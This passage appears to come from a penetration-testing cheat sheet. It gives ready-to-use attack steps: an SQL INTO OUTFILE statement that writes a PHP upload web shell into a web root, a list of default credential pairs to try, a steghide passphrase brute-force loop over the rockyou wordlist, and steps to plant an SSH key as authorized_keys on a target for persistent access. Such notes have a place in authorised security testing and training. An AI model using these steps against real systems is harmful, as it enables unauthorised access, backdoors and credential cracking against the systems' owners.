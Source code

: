 ```sql
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

## Credentials

Once we obtain credentials we should always try to re-use them:

Default Passwords:
* `admin:admin`
* `root:root`
* `administrator:password`
* `admin:password`

Passwordless (PhpMyAdmin):
* `root`
* `admin`
* `administrator`

We should always research if the application has a default credentials logins too.

## Steganography

* Steganography String: `%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz` 
* Steganography String: `&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz`

Extract File from `.jpg`:

```bash
steghide extract -sf "JPG-FILE"
```

Brute-Force Passwords:

```bash
for i in $(cat /usr/share/wordlists/rockyou.txt); do echo '[+] Trying ' $i; steghide extract -sf "JPG-FILE" --passphrase $i; done 
```
## SSH Key

SSH Keys:

* `id_ecdsa`
* `id_rsa`

Commands:

```bash
# Generate SSH Key
ssh-keygen

# Permission
chmod -R 600 id_rsa

# 1. Transfer the file `id_rsa.pub` to target machine as `authorized_keys`
# 2. Login using the `id_rsa` key
```
